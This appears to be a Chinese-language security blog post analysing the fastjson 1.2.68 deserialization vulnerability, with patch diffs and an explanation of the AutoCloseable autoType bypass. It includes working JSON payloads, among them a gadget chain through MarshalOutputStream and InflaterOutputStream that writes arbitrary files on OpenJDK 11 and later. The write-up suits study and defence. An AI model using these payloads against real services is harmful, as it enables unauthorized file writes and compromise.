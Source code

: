 ```yaml
---
title: fastjson 1.2.68 反序列化漏洞 gadgets 挖掘笔记
date: 2020-06-12 22:15:32
tags: [java, web]
---
```


以此祭奠找 gadgets 逝去的青春, orz

<!--more-->

## 漏洞原因

既然已经出了补丁, 首先 diff 一下新版本与旧版本的差别, 这里因为 fastjson 会更新旧版本, 自然优先去 diff 旧版本的 sec 更新. 而不是去看 git log, 这样可以节省点时间, 因为 sec 更新只包含漏洞修补, 没有 feature 的更新.  

这里挑了 1.2.48 版本:  
https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.48.sec09/  
https://repo1.maven.org/maven2/com/alibaba/fastjson/1.2.48.sec10/

```diff
$ diff 1.2.48-sec09/com/alibaba/fastjson/parser/ParserConfig.java  1.2.48-sec10/com/alibaba/fastjson/parser/ParserConfig.java
71a72
>     public static final String    SAFE_MODE_PROPERTY        = "fastjson.parser.safeMode";
75a77
>     public static  final boolean  SAFE_MODE;
87a90,93
>             String property = IOUtils.getStringProperty(SAFE_MODE_PROPERTY);
>             SAFE_MODE = "true".equals(property);
>         }
>         {
185a192
>     private boolean                                         safeMode               = SAFE_MODE;
214a222,224
>                 0xD54B91CC77B239EDL,
>                 0xD59EE91F0B09EA01L,
>                 0xD8CA3D595E982BACL,
244a255
>                 0x1CD6F11C6A358BB7L,
273a285
>                 0x535E552D6F9700C1L,
291c303,305
<                 0x7AA7EE3627A19CF3L
---
>                 0x7AA7EE3627A19CF3L,
>                 0x7ED9311D28BF1A65L,
>                 0x7ED9481D28BF417AL
497a512,519
>     public boolean isSafeMode() {
>         return safeMode;
>     }
> 
>     public void setSafeMode(boolean safeMode) {
>         this.safeMode = safeMode;
>     }
> 
1033a1056,1059
>         if (this.safeMode) {
>             throw new JSONException("safeMode not support autoType : " + typeName);
>         }
> 
1038,1045c1064,1075
<             if (expectClass == Object.class
<                     || expectClass == Serializable.class
<                     || expectClass == Cloneable.class
<                     || expectClass == Closeable.class
<                     || expectClass == EventListener.class
<                     || expectClass == Iterable.class
<                     || expectClass == Collection.class
<                     ) {
---
>             long expectHash = TypeUtils.fnv1a_64(expectClass.getName());
>             if (expectHash == 0x90a25f5baa21529eL
>                     || expectHash == 0x2d10a5801b9d6136L
>                     || expectHash == 0xaf586a571e302c6bL
>                     || expectHash == 0xed007300a7b227c6L
>                     || expectHash == 0x295c4605fd1eaa95L
>                     || expectHash == 0x47ef269aadc650b4L
>                     || expectHash == 0x6439c4dff712ae8bL
>                     || expectHash == 0xe3dd9875a2dc5283L
>                     || expectHash == 0xe2a8ddba03e69e0dL
>                     || expectHash == 0xd734ceb4c3e9d1daL
>             ) {
```

明显看到 expectClass 的判断出了变化, 甚至加了层 hash, 有种此地无银三百两的味道 233.  
这里修改下 fastjson-blacklist, 改成用 `TypeUtils.fnv1a_64` 来计算 hash, 可以得到新增了三个类型的判断, `java.lang.AutoCloseable`, `java.lang.Readable`, `java.lang.Runnable`.  

这里稍微跟了下程序, 发现 expectClass 的作用其实相当于一个临时白名单, 这里有两个特性:  

1. 比如有个  
```java
public interface Face {

}

public class Test implements Face {
    String aaa;

    public void setAaa(String aaa) {
        this.aaa = aaa;
    }
}

public class Test2 {
    Face test;

    public void setTest(Face test) {
        this.test = test;
    }
}
```

那么通过 `JSON.parseObject("{\"test\":{\"@type\": \"Test\", \"aaa\": \"zz\"}}", Test2.class);` 是可以反序列化的, fastjson 会对当前反序列化类的 field 的类型作为 type 传进 `JavaBeanDeserializer.deserialze`. 最后成为 expectClass 代入 checkAutoType 中, 如果 @type 指定的类是 expectClass 的子类, 就可以在黑名单不禁止的情况下通过检查, 这样就可以为 interface 制定类.  

2. 还有一个特性, 那就是会直接为 field 创建 JavaBeanDeserializer, 这个更强一些, 无视黑名单以及白名单, 但是前提有一个类的 field (或者 setter) 使用了才行. 比如:  
```java
public static class Test2 {
    java.lang.Thread test;

    public void setTest(java.lang.Thread test) {
        this.test = test;
    }
}
```
`JSON.parseObject("{\"test\":{\"@type\":\"java.lang.Thread\"}}", Test2.class);` 会直接将 Thread 反序列化, 无视了黑名单 (实际上直接绕过了 checkAutoType, SafeMode 下依然可以反序列化), 但这个明显鸡肋很多, 毕竟那些危险类一般情况下都是没用的. 没人会作为 filed 来使用.  

这次漏洞也是因为特性 1 的原因. 但还有一个原因才能导致漏洞, 那就是 AutoCloseable 是在内置的反序列化 classMappings 中的, 没错, 就是之前缓存绕过 autoType 的那个 mapping. 所以导致了 AutoCloseable 是能直接被反序列化的, 这里可以根据特性一, 构造

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.FileOutputStream",
    "file": "/tmp/asdasd",
    "append": true
}
```

这样可以直接绕过 autoType 的检查, 得到 java.io.FileOutputStream, 此处是直接用 `"@type": "java.lang.AutoCloseable"` 构造出了 JavaBeanDeserializer, 而不是跟上面的例子一样通过 filed 的方式. 相信看到这里, 就已经有想法了, 可以通过 AutoCloseable 的子类来完成相关的攻击.  


## 漏洞修复

修复方式从上面的 diff 中可以看出是在原来的基础上加了几个, 实际上可以看到原来本身就是有防御的, 因为有些内置类是以 Object 作为 setter, 构造函数的参数类型的, 如果不 ban 掉, 就可以直接反序列化任意类了. 这次的漏洞更像是某种意义上的黑名单被绕过, 不过可以看到 AutoCloseable 是 Closeble 的父类, 不知道为什么会在 Closeble 已经被 ban 掉的情况下忘记添加 AutoCloseable, 可能是忘记了? 233


## 漏洞利用

这里分享一条我找到的不需要三方库的链, 注意虽然不需要三方库, 但只能在 openjdk >= 11 下利用, 因为只有这些版本没去掉符号信息. fastjson 在类没有无参数构造函数时, 如果其他构造函数是有符号信息的话也是可以调用的, 所以可以多利用一些内部类, 但是 openjdk 8, 包括 oracle jdk 都是不带这些信息的, 导致无法反序列化, 自然也就无法利用. 所以相对比较鸡肋, 仅供学习. orz  

```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "sun.rmi.server.MarshalOutputStream",
    "out": {
        "@type": "java.util.zip.InflaterOutputStream",
        "out": {
           "@type": "java.io.FileOutputStream",
           "file": "/tmp/asdasd",
           "append": true
        },
        "infl": {
           "input": {
               "array": "eJxLLE5JTCkGAAh5AnE=",
               "limit": 14
           }
        },
        "bufLen": "100"
    },
    "protocolVersion": 1
}
```

大致思路是从上面已经写出来的 FileOutputStream 开始, 找到一个能往里面指定写入内容的类, 这里要一次传入两个参数, 所以只能通过构造函数或者两个 setter 来设置, 比较尴尬的是没有找到可以直接触发的, 还需要再调用一次 write/close/flush 才能真正写入内容, 最后又找到了 `sun.rmi.server.MarshalOutputStream`, 可以写入不可控内容, 才真正完成 exp.  

这里可以通过反射来暴力搜索函数相关参数, 加快搜索过程, 但也是很麻烦的 orz
